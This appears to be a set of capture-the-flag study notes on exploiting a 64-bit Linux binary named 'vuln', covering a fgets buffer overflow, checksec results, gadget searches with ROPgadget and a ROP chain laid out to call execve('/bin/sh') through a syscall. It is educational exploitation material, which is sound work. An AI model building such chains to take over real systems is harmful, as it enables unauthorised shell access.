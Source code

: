 # Lesson
- get a sence of finding vulnerable points  
  ```c
  int BUFSIZE = 100;
  char winner[BUFSIZE];
  fgets(winner, 360, stdin);
  ```
- ROP for x64  
- `x/xb` of `gdb`  
  gdb  
  ```zsh
  (pwndbg)$ x/170xb 0x7fffffffdc6c
  ```

# Memo  
1. check  
    ```zsh
    $ file ./vuln
    ./vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
    $ checksec --file=./vuln --output=json | jq .
    {
      "./vuln": {
        "relro": "partial",
        "canary": "no",
        "nx": "yes",
        "pie": "no",
        "rpath": "n/a",
        "runpath": "n/a",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "0"
      }
    }
    ```

2. ghidra  

3. gdb  
    - stage1: brute force  
    - stage2: ROP  
      - goal
        ```
        rax: 59 for sys_execve
        rdi: an address(pointer) to "/bin/sh"
        rsi: 0
        rdx: 0
        ```
      - find gadgets  
        ```zsh
        $ ROPgadget --binary ./vuln --re "mov dword ptr" | grep ret
        $ ROPgadget --binary ./vuln --re "rdi" | grep "mov dword"
        $ ROPgadget --binary ./vuln --re "pop rdi"
        ```
      - stack structure  
        ```
        0x00000000004163f4 : pop rax ; ret
        "/bin//sh"
        0x000000000044a6b5 : pop rdx ; ret
        (address)
        0x0000000000419127 : mov qword ptr [rdx], rax ; ret
        0x0000000000400696 : pop rdi ; ret
        (address)
        0x0000000000410ca3 : pop rsi ; ret
        0
        0x000000000044a6b5 : pop rdx ; ret
        0
        0x00000000004163f4 : pop rax ; ret
        59
        0x000000000040137c : syscall
        ```

# Ref
- https://book.hacktricks.xyz/v/jp/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv